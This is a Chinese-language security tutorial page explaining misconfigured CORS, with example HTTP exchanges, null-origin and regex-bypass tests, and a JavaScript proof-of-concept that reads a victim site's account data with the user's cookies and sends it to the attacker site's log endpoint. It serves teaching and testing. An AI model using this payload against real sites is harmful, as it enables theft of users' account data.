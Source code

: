 # 不合理的CORS配置

# 简介与原理

#在阅读本章节前，请先阅读 /基础知识/AJAX、同源策略、JSONP、CORS 

假设有一个请求包与响应包格式如下：

```python
GET /sensitive-victim-data HTTP/1.1
Host: A.com
Origin: http://B.com
Cookie: sessionid=...
```

```python
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://B.com
Access-Control-Allow-Credentials: true
```

可以发现，在host是A，也就是A网站的服务器中：

Access-Control-Allow-Origin字段允许了来自B网站的AJAX请求

Access-Control-Allow-Credentials字段允许了A站点的cookie被B站点的javascript访问

那么，我们完全可以在B站点插入如下javascript语句并诱导A站点的用户点击

```python
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','A.com/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```

点击后，B站点的javascript语句可以访问A站点的/accountDetails，并将返回内容填充到对B站点的/log?key=之后，我们可以通过查看B站点的访问日志获取对应的信息。

#在/基础知识/AJAX、同源策略...中，我们提到了同源策略是为了限制javascript使用非同源网站的cookie而存在的。

#CORS的出现，本意是为了提供关联的其他网站通过AJAX获取本网站资源的能力

#而不安全的CORS配置，恰巧利用了相关便捷性实现了恶意的目的

---

# 技巧

- Access-Control-Allow-Credentials不能被设置为true（如果设置为true会在返回包中显示）
- Access-Control-Allow-Origin在限制范围时可能过滤不当（使用通配符*或使用正则过滤）
    - 置空攻击

    ```python
    GET /handler
    Host: target.local
    Origin: null

    #如果返回如下，则配置存在问题
    HTTP/1.1 200 OK
    Acess-Control-Allow-Origin: null
    Access-Control-Allow-Credentials: true
    ```

    - 正则绕过攻击

    ```python
    #原域名为：target.local
    GET /handler
    Host: target.local
    Origin: https://target.local.attacker.domain

    #Origin2: https://nottarget.local
    ```
